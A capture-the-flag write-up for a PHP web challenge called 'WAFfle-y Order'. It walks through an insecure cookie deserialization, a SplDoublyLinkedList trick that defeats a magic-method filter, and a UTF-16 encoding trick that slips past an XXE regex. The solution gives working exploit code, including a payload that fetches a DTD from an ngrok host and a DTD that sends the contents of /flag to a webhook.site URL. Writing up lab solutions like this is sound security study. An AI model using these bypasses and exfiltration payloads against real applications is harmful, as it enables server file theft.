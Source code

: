 # WAFfle-y Order
Category: Web  
Level: Medium

## Code Analysis
Checking out the `index.php` we find the `PHPSESSID` cookie is serialized:
```php index.php
if  ( empty ( $_COOKIE [ 'PHPSESSID' ])) 
{ 
    $user  =  new  UserModel; 
    $user ->username = substr(uniqid( 'guest_' ),  0 ,  10 ); 
    setcookie( 
        'PHPSESSID' , 
        base64_encode(serialize( $user )),  
        time()+ 60 * 60 * 24 ,  
        '/' 
    ); 
} 
```

In `OrderController.php` we find the deserialization:
```php OrderController.php
$body = file_get_contents( 'php://input' );   
$cookie = base64_decode( $_COOKIE [ 'PHPSESSID' ]);   
safe_object( $cookie );   
$user = unserialize( $cookie );
```

Before the deserialization the cookie is sanitized by `safe_object` method. It checks for unsafe functions starting with `__`:
```php OrderController.php
function  safe_object ( $serialized_data ) 
{ 
    $matches  = []; 
    $num_matches  = preg_match_all( '/(^|;)O:\d+:"([^"]+)"/' ,  $serialized_data ,  $matches ); 

    for  ( $i  =  0 ;  $i  <  $num_matches ;  $i ++) { 
        $methods  = get_class_methods( $matches [ 2 ][ $i ]); 
        foreach  ( $methods  as  $method ) { 
            if  (preg_match( '/^__.*$/' ,  $method ) !=  0 ) { 
                die ( "Unsafe method: ${method}" ); 
            } 
        } 
    } 
} 
```

Having found the deserialization vulnerability, the next step is to find classes that can be exploited by the deserialization vulnerability.

There is a `XmlParserModel` class and the `__wakeup` method, which is called when the object is deserialized:
```php XmlParserModel.php
class  XmlParserModel 
{ 
    private  string  $data ; 
    private  array  $env ; 

    public  function  __construct ( $data ) 
    { 
        $this ->data =  $data ; 
    } 

    public  function  __wakeup ( ) 
    { 
        if  (preg_match_all( "/<!(?:DOCTYPE|ENTITY)(?:\s|%|&#[0-9]+;|&#x[0-9a-fA-F]+;)+[^\s]+\s+(?:SYSTEM|PUBLIC)\s+[\'\"]/im" ,  $this ->data)) 
        { 
            die ( 'Unsafe XML' ); 
        } 
        $env  = @simplexml_load_string( $this ->data,  'SimpleXMLElement' , LIBXML_NOENT); 

        if  (! $env )  
        { 
            die ( 'Malformed XML' ); 
        } 

        foreach  ( $env  as  $key  =>  $value ) 
        { 
            $_ENV [ $key ] = ( string ) $value ; 
        } 
    } 
} 
```

In sum, exist a `__wakeup` method in `XmlParserModel` and object variable `$data` with `simplexml_load_string` is used as `XML` parsing. When deserializing, the vulnerability can give `$data` variables arbitrary values that can be created by external entities `XXE`.

However, when `$data` is including external entities, it will be replaced by the regular expression `/<!(?:DOCTYPE|ENTITY)(?:\s|%|&#[0-9]+;|&#x[0-9a-fA-F]+;)+[^\s]+\s+(?:SYSTEM|PUBLIC)\s+[\'\"]/im` matches, resulting in the call `die` and return `Unsafe XML`.
For this, you can `UTF-8` encoded `XML` document converted to `UTF-16` coding

## METHODOLGY
When making the call, the server checks if the cookie is “safe” with `safe_object()`. The method finds all matches of serialized objects and gets their respective class methods. If any of the class method contains `__` at the beginning (for magic methods exploits), the program dies.

Decoded cookie, the ErrorException contains magic method __construct:
O:14:"ErrorException":1:{s:8:"username";s:10:"guest_614c";}

To bypass this restriction, I studied this writeup:
https://github.com/MegadodoPublications/exploits/blob/master/composr.md#the-moderately-cool-way-that-works

Objects that implement the Serializable interface contain two methods serialize and unserialize. 
When serializing such an object a string of the following format will be returned: 
```
C:<number of characters in the class name>:"<class name>":<length of the output of the serialize method>:{<output of the serialize method>}.
```

Creating a serialized string in this format for an object of a class that doesn’t implement Serializable will work but the deserialized object will not have any class members set. It is thus not very useful for our purposes but it does lead the way to a final working exploit.
```
C:19:“SplDoublyLinkedList”:33:{i:0;:O:10:“HelloWorld”:0:{}:i:42;}
```

Notice the `:` before `O`. This prevents the regex from matching.
Part of the payload is going to look like this. `$pay` is our serialized payload object.

### XML WAF bypass
We will serialize XmlParserModel class. It has `__wakeup` magic method, and calls `simplexml_load_string()` which we will exploit. 
With this method, we can do XXE, but have to first bypass the regex check.
The LIBXML_NOENT option allows us to use XML entities.

To bypass the regex, I use UTF-16 encoding on the XML payload. 
The `simplexml_load_string()` does whats its told to do, and the regex just don’t know what’s going on and lets the payload through.

### DTD OOB exfiltration
Free from restraints, we can finally do the XXE with OOB DTD (inspiration). The challenge is internet-enabled. I’m going to fetch the DTD from ngrok which I tunnel to my machine where I host the DTD file. The DTD reads the flag file and make a call to my internet webhook, where a GET parameter contains the flag.

## Exploit
Lets create 3 files.
In `exploit.py` we generate php serialized payload and encode using base64. URL encoding is done inplicitly in requests. Insert payload into cookie and make the API call.
```python exploit.py
#!/usr/bin/python3

import requests
import subprocess
import base64

result = subprocess.run(['php', 'php_pay.php'], stdout=subprocess.PIPE)
rs = result.stdout 
pay = base64.b64encode(rs)
pay = pay.decode()

c = {'PHPSESSID': pay}
d = {"table_num":"1","food":"WAFfles"}

r = requests.post('http://206.189.124.249:32543/api/order', json=d, cookies=c)
print(r.content.decode())
```

In `php_pay.php` we create and xml paylod that will be interpreted by simplexml_load_string(). We tell it to fetch our malicious DTD and execute it. Then we convert the xml into UTF-16BE, serialize it and paste it into our predefined serialized structure.
```php php_pay.php
<?php

class XmlParserModel {
    public string $data;

    public function __construct($data)
    {
        $this->data = $data;
    }
}

/* UTF-16 encoding
 * ngrok to malicious.dtd
 */
$xml = '<?xml version="1.0" encoding="UTF-16"?><!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://1486-88-212-37-72.ngrok.io/malicious.dtd"> %xxe;]><env><debug>1</debug></env>';

// perform utf-16 conversion (big endian)
$xml = iconv('UTF-8', 'UTF-16BE', $xml);

$pay = serialize(new XmlParserModel($xml));

// 11 is number of chars in {} block apart from variable $pay
$l = 11 + strlen($pay);
echo 'C:19:"SplDoublyLinkedList":' . $l . ':{i:0;:' . $pay . ':i:42;}';
```

In `malicious.dtd` we tell the system to get contents of /flag and encode it using base64. We have to use base64 encoding because the file contains a newline at the end, and the xml entity doesn’t like that. We then instruct the system to make and http call to our webhook which contains the flag as a GET parameter.
```dtd malicious.dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://webhook.site/d1a3d99e-30da-4cb5-8e98-a4922d66f996/?x=%file;'>">
%eval;
%exfiltrate;
```

## FLAG
Now we just need to run `exploit.py` and get the flag in the webhook.
HTB{XXX..XXX..XXX}
